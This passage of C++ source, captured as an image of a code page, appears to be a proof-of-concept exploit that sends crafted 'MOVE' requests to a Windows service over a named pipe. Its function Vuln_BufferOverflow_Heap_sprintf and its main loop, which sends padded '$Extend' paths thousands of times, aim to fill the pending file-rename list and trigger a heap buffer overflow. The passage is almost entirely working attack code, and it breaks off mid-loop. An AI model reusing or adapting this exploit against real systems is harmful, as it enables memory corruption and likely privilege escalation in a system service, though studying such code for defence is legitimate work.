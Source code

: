 ```C++
		return pOffset;
	}
	pOffset += 4096 - (dwSize % 4096);
	return pOffset;
}
/////////////////////////////
// End of common pipe code //
/////////////////////////////

//
// Vulnerability
//		Type: 
//			Buffer Overflow (Heap) via wsprintfA			
//
//		Description: 
//			
//
void Vuln_BufferOverflow_Heap_sprintf(PSTR pszSource, PSTR pszDest)
{
	PVOID pData = AllocPrecise(0x8000);
	// 0x4D4F5645		MOVE
	DWORD dwAction = 0x4D4F5645;
	memcpy(pData, &dwAction, 4);
	PSTR pszData = (PSTR)(((PBYTE)pData) + 4);

	strcat(pszData, pszSource);
	pszData += strlen(pszSource) + 1;

	strcat(pszData, pszDest);
	pszData += strlen(pszDest) + 1;

	PDWORD pdwData = (PDWORD)pszData;
	*pdwData = 1;

	DWORD dwSize = 4 + strlen(pszSource) + strlen(pszDest) + 2 + 4;


	CallPipeFunction(0x1003E, (PBYTE)pData, dwSize, NULL, 0);

	if (g_hPipe != INVALID_HANDLE_VALUE)
	{
		CloseHandle(g_hPipe);
		g_hPipe = INVALID_HANDLE_VALUE;
	}
}

int wmain(int argc, wchar_t** argv)
{
	printf("Spamming the pipe with some large strings.\r\n. This should fill up the Pending File Rename operations allowing an overflow :o)\r\n");
	for (DWORD i = 0; i < 10000; ++i)
	{
		// So we use .\.\.\. to just fill up a string quicker
		// C:\$Extend is an NTFS file, therefore MoveFileEx will fail with AccessDenied (5) which is what 
		// we need to trigger the overflow
		PSTR pszSource = "C:\\.\\.\\.\\.\\.\\.\\.\\.\\.\\.\\$Extend";
		PSTR pszDest = "C:\\.\\.\\.\\.\\.\\.\\.\\.\\.\\.\\$Extend";

		if (i % 100 == 0)
		{
			printf(".");
		}
```